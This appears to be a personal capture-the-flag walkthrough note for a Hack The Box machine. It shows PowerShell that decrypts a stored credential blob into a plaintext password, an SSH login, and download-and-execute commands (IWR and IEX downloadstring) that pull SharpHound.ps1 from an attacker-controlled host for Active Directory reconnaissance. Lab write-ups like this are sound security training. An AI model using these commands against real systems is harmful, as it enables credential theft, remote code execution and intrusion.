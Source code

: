 
Password
```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692
```

```
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
```

```
$user = "HTB\Tom"
```

```
$cred = New-Object System.Management.Automation.PSCredential($user,$pass)
```

```
$cred.GetNetworkCredential() | fl
```

![[Pasted image 20240510125918.png]]

```
1ts-mag1c!!!
```


Now will try to get an SSH shell
```
ssh tom@10.10.10.77
```

![[Pasted image 20240510130253.png]]

This means we have to run Bloodhound for that we have to use SharpHound.ps1
```
IWR -Uri http://10.10.16.20/SharpHound.ps1 -OutFile SharpHound.ps1
```

or
```
IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.20/SharpHound.ps1")
```

Not able to run the Bloodhound from the sharp hound function will see what mistake i am doing . Refer the PDF once to see how they have run the bloodhound.
```
Invoke-BloodHound -CollectionMethod All
```

We don't have to run this as there is some problem with .net version so will simply download the acl something from the tom
https://forum.hackthebox.com/t/sharphound-ps1-doesnt-work/266964

![[Pasted image 20240510163007.png]]

Made a smb share to copy the file
![[Pasted image 20240510164619.png]]
![[Pasted image 20240510164630.png]]
![[Pasted image 20240510164644.png]]

Will filter the data and see what data or info we get out of it.
![[Pasted image 20240510165611.png]]

